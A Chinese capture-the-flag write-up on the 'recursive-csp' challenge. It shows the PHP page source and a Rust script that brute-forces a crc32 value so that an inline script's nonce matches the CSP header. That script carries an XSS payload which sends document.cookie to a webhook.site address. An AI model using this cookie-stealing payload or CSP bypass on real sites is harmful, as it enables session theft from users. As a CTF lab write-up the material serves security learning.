 ```yaml
---
tags: 
  - CSP
---
```


# recursive csp

题目源码
```html
<?php
  if (isset($_GET["source"])) highlight_file(__FILE__) && die();

  $name = "world";
  if (isset($_GET["name"]) && is_string($_GET["name"]) && strlen($_GET["name"]) < 128) {
    $name = $_GET["name"];
  }

  $nonce = hash("crc32b", $name);
  header("Content-Security-Policy: default-src 'none'; script-src 'nonce-$nonce' 'unsafe-inline'; base-uri 'none';");
?>
<!DOCTYPE html>
<html>
  <head>
    <title>recursive-csp</title>
  </head>
  <body>
    <h1>Hello, <?php echo $name ?>!</h1>
    <h3>Enter your name:</h3>
    <form method="GET">
      <input type="text" placeholder="name" name="name" />
      <input type="submit" />
    </form>
    <!-- /?source -->
  </body>
</html>
```

这题主要是认识下 CSP ([MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src#unsafe_inline_script))，可以看到题目中的 CSP 规则是 `default-src 'none'; script-src 'nonce-$nonce' 'unsafe-inline'`，nonce 部分可控，爆破 crc32 保持 nonce 相同即可。

Rust 写的爆破脚本，来自[Post](https://brycec.me/posts/dicectf_2023_challenges)。
```rust
use rayon::prelude::*;

fn main() {
    let payload = "<script nonce='ZZZZZZZZ'>location.href='https://webhook.site/95269d84-93ab-4b47-964a-b548e8358c09' + document.cookie</script>".to_string();
    let start = payload.find("Z").unwrap();
    (0..=0xFFFFFFFFu32).into_par_iter().for_each(|i| {
        let mut p = payload.clone();
        p.replace_range(start..start+8, &format!("{:08x}", i));
        if crc32fast::hash(p.as_bytes()) == i {
            println!("{} {i} {:08x}", p, i);
        }
    });
}
```
